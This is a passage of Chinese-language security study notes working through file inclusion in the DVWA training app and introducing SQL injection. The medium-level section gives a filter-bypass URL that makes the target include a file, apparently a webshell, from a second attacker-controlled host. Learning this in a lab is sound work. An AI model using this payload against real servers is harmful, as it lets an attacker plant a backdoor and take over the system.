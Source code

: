 ##### 本地文件包含+webshell

​		<font color="red">该种限定方式，对本地文件包含没有任何影响，即本地文件包含与低安全模式下的本地文件包含操作一致，具体可参考低安全模式下的本地文件包含操作。</font>

##### 远程文件包含+webshell

​		中安全模式下，对URL进行了过滤操作，影响到远程文件包含的执行。

```shell
# 绕过方式
http://192.168.19.129/dvwa/vulnerabilities/fi/?page=hthttp://tp://192.168.19.130/hacker.txt
```



#### 高安全级别

高安全模式下，限定了文件包含的具体文件名，但这种做使其灵活性变差。

![FileInclusionSourceHigh](../../../MarkdownImgs/安全技术/渗透测试/安全学习笔记/FileInclusionSourceHigh.png)



### 防御手段

- 在执行文件包含时，要对文件的路径进行过滤，防止恶意文件在服务器上生成后门程序。
- 对文件检测，防止文件执行恶意程序



## SQL注入漏洞

​		SQL注入（SQL Injection），在OWASP年度TOP 10安全问题中，注入高居榜首。SQL注入攻击指的是通过构建特殊的输入作为参数传入Web应用程序，而这些输入大都是SQL语法里的一些组合，通过执行SQL语句进行执行攻击者所要的操作，其主要原因是程序没有细致地过滤用户输入的数据，致使非法数据侵入系统。



1. 对于Web应用程序而言，用户核心数据存储在数据库中，例如：MySQL、SQL Server、Oracle；
2. 通过SQL注入攻击，可以获取、修改、删除数据库信息，并且通过提权来控制web服务器等其他操作；
3. SQL注入即攻击者通过构造特殊的SQL语句，入侵目标系统，致使后台数据库泄露数据的过程；
4. 因为SQL注入漏洞造成的严重危害性，所以常年稳居OWASP TOP10的榜首。

